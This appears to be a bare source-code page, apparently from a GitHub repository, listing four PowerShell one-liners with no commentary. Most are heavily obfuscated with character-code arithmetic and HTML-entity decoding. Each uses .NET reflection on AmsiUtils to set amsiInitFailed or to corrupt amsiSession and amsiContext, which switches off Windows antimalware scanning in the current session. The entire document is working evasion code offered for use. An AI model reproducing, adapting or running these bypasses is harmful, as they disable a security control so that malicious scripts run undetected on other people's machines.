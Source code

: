-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$TZTTGYMX=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((11333-2257));[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Context", "NonPublic,Static").SetValue($null, [IntPtr]$TZTTGYMX);
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;')))).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.Type')), [Object]([Ref].Assembly.GetType('System.Management.Automation.'+$([SysTeM.nET.WEButiLIty]::HTmlDeCOdE('&#65;&#109;&#115;&#105;'))+'Utils')),('GetField')).Invoke(''+$([systEm.net.weBuTiLiTY]::HTmLdECOde('&#97;&#109;&#115;&#105;'))+'InitFailed',(('NonPublic,Static') -as [String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;'))))).SetValue($null,$True);
``` 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
--------------------------------------------
```powershell

$cyouegrv=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076*4948/4948));[Ref].Assembly.GetType("$([cHAR]([ByTE]0x53)+[CHaR](121+9-9)+[CHar](115+8-8)+[cHaR](116)+[cHar]([byTE]0x65)+[chAR]([BYte]0x6d)+[cHAR](46)+[CHaR]([ByTe]0x4d)+[CHaR](53+44)+[ChAr]([byte]0x6e)+[CHaR]([ByTe]0x61)+[ChaR](103+54-54)+[cHar](101*82/82)+[cHAR]([BYtE]0x6d)+[char](101*62/62)+[Char]([ByTE]0x6e)+[CHar](116)).Automation.$([CHar]([BYte]0x41)+[ChAr]([BytE]0x6d)+[ChaR](115)+[chaR](105*89/89)+[Char](85)+[Char]([ByTE]0x74)+[chAr]([ByTE]0x69)+[chaR](108+27-27)+[CHAr]([bytE]0x73))").GetField("$([cHAr](97)+[chaR](109)+[cHar]([BYTe]0x73)+[chaR]([bYTE]0x69)+[cHar]([bYte]0x53)+[cHAr](101+31-31)+[ChAR](115+34-34)+[cHAR]([byTE]0x73)+[chAr]([bytE]0x69)+[ChaR](111*53/53)+[chaR]([ByTE]0x6e))", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("$([cHAR]([ByTE]0x53)+[CHaR](121+9-9)+[CHar](115+8-8)+[cHaR](116)+[cHar]([byTE]0x65)+[chAR]([BYte]0x6d)+[cHAR](46)+[CHaR]([ByTe]0x4d)+[CHaR](53+44)+[ChAr]([byte]0x6e)+[CHaR]([ByTe]0x61)+[ChaR](103+54-54)+[cHar](101*82/82)+[cHAR]([BYtE]0x6d)+[char](101*62/62)+[Char]([ByTE]0x6e)+[CHar](116)).Automation.$([CHar]([BYte]0x41)+[ChAr]([BytE]0x6d)+[ChaR](115)+[chaR](105*89/89)+[Char](85)+[Char]([ByTE]0x74)+[chAr]([ByTE]0x69)+[chaR](108+27-27)+[CHAr]([bytE]0x73))").GetField("$([chaR]([byTe]0x61)+[chAR]([bYte]0x6d)+[Char]([byTe]0x73)+[cHaR]([ByTe]0x69)+[cHaR](43+24)+[cHAR]([BYte]0x6f)+[ChAR]([bYTe]0x6e)+[ChAr]([byTe]0x74)+[Char]([bYTE]0x65)+[char](120)+[cHaR]([Byte]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$cyouegrv);

#(09/06/2021)
```
